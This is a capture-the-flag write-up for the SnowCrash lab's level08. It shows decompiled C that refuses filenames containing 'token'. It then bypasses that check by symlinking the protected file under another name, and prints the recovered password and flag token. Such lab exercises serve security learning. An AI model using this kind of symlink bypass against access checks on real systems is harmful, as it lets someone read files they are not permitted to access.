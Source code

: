 ## Level08

Again, a `level08` exe and a `token` file without permission in it.

As we can see in the [level08_decomp.c](./level08_decomp.c) there are several checks for the args you pass to the program:

```c
int main()
{
	local_14 = *(int *)(in_GS_OFFSET + 0x14);
	if (argc == 1) {
		printf("%s [file to read]\n",*in_stack_00000008);
						// WARNING: Subroutine does not return
		exit(1);
	}
	pcVar1 = strstr((char *)in_stack_00000008[1],"token");
	if (pcVar1 != (char *)0x0) {
		printf("You may not access \'%s\'\n",in_stack_00000008[1]);
						// WARNING: Subroutine does not return
		exit(1);
	}
	__fd = open((char *)in_stack_00000008[1],0);
	if (__fd == -1) {
		err(1,"Unable to open %s",in_stack_00000008[1]);
	}
	__n = read(__fd,local_414,0x400);
	if (__n == 0xffffffff) {
		err(1,"Unable to read fd %d",__fd);
	}
	sVar2 = write(1,local_414,__n);
	if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
						// WARNING: Subroutine does not return
		__stack_chk_fail();
	}
	return sVar2;
}
```

We can pass the first test by giving it any argument, the second one indicates that giving `token` as an arguments exits and the other ones are just checks for the read and write calls.

So our objective is to somehow read the `token` file.

We can do so by creating a symlink to `token` and pass it to the program:

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/tt4
level08@SnowCrash:~$ ./level08 /tmp/tt4
quif5eloekouj29ke0vouxean
```

We can then su to the flag and get it:

```bash
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Token

25749xKZ8L7DkSCwJkT9dyv6f